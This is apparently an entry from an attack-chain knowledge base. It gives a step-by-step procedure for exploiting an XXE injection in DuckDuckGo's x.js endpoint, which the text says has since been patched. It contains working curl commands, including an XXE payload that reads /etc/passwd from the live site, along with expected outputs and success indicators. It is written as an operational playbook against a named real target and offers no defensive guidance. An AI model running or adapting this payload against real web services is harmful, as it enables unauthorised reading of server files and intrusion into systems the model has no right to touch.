

---
tags:
  - xxe
  - file-leak
  - web-vulnerability
type: attack_chain
tools:
  - '[[tools/curl]]'
tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
commands:
  - '[[commands/curl-discover-endpoint]]'
  - '[[commands/curl-send-xxe-payload]]'
platforms:
  - Web
complexity: medium
procedures:
  - '[[procedures/Identify-Vulnerable-XML-Endpoint]]'
  - '[[procedures/Exploit-XXE-to-Leak-Files]]'
step_count: 2
techniques:
  - '[[Exploit Public-Facing Application]]'
description: >-
  Exploitation of an XXE vulnerability in DuckDuckGo's x.js endpoint to leak
  world-readable system files
skill_level: intermediate
impact_level: high
id: 1163d803-f78c-44b5-ad7d-a26a217de2ff
created_at: '2025-12-13T09:00:33.911Z'
updated_at: '2025-12-13T09:00:33.911Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# XXE Injection in DuckDuckGo x.js Endpoint to Leak System Files

## Overview

This attack chain demonstrates the exploitation of an XML External Entity (XXE) injection vulnerability in the x.js endpoint on https://duckduckgo.com via the 'u' parameter. The vulnerability arises from improper sanitation of external XML entities, allowing attackers to leak world-readable files from the system. The endpoint was reported vulnerable, subsequently patched by DuckDuckGo, and is slated for retirement. This chain outlines the steps to identify the vulnerability and exploit it for file leakage.

## Attack Flow



## Prerequisites & Requirements

### Required Tools
- [[tools/curl]]

### Target Environment
- Web-based application processing XML inputs
- Accessible endpoint: https://duckduckgo.com/x.js?u=
- Network access to the target URL

### Initial Access Requirements
- No credentials required
- Publicly accessible endpoint
- Ability to send HTTP requests

## Detailed Attack Procedures

### Step 1: Identify Vulnerable XML Endpoint
procedure: [[procedures/Identify-Vulnerable-XML-Endpoint]]

**Objective**: Locate and confirm the endpoint that processes XML inputs without proper entity sanitation.

**Instructions**: Use [[commands/curl-discover-endpoint]] to test the endpoint's response to basic requests:

```bash
curl "https://duckduckgo.com/x.js?u=test"
```

Analyze the response for XML processing indicators. Send a test XML payload to check for parsing behavior without triggering exploitation.

**Expected Output**: HTTP response confirming the endpoint processes the 'u' parameter.

**Success Indicators**:
- Endpoint returns 200 OK
- Response indicates XML handling

### Step 2: Exploit XXE to Leak Files
procedure: [[procedures/Exploit-XXE-to-Leak-Files]]

**Objective**: Craft and send an XXE payload to include external entities and leak system files.

**Instructions**: Craft an XXE payload targeting world-readable files like /etc/passwd and send it using [[commands/curl-send-xxe-payload]]:

```bash
curl "https://duckduckgo.com/x.js?u=<?xml version=\"1.0\"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM \"file:///etc/passwd\" >]><foo>&xxe;</foo>"
```

Monitor the response for leaked file contents.

**Expected Output**: Response body contains contents of the targeted file.

**Success Indicators**:
- Leaked file data appears in response
- No error indicating entity restriction
